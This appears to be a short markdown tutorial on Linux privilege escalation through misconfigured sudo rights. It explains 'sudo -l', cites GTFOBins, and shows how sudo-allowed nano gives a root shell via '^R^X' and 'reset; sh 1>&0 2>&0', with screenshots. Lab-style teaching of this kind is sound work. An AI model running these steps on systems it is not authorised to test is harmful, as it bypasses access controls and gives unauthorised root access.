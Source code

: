 # SUDO :

The sudo command, by default, allows you to run a program with root privileges. Under some conditions, system administrators may need to give regular users some flexibility on their privileges. For example, a junior SOC analyst may need to use Nmap regularly but would not be cleared for full root access. In this situation, the system administrator can allow this user to only run Nmap with root privileges while keeping its regular privilege level throughout the rest of the system.

Any user can check its current situation related to root privileges using the "sudo -l" command.

![sudol](https://user-images.githubusercontent.com/94765997/162626342-604f13a4-bda5-4060-9e6c-168e41dcef65.png)



https://gtfobins.github.io/ is a valuable source that provides information on how any program, on which you may have sudo rights, can be used.

# Let's try with nano command  :


![11](https://user-images.githubusercontent.com/94765997/162626454-50dbd529-6bb4-464c-b907-b97589aa1296.png)

# and sudo function : 


![12](https://user-images.githubusercontent.com/94765997/162626515-9683d138-0778-48bc-8f4b-55fcf24274a4.png)

* After access it over SSH with the low-privilege user run :

        sudo nano
        ^R^X
* and execute command :

        reset; sh 1>&0 2>&0
 
 ![sudonano](https://user-images.githubusercontent.com/94765997/162626675-9763986d-295f-4540-9d21-465e2a545e47.png)
 
* and get root privileges :
 
 

 
![13](https://user-images.githubusercontent.com/94765997/162626746-cec26f2a-3bf9-4d93-8e0a-1caf8766fedb.png)

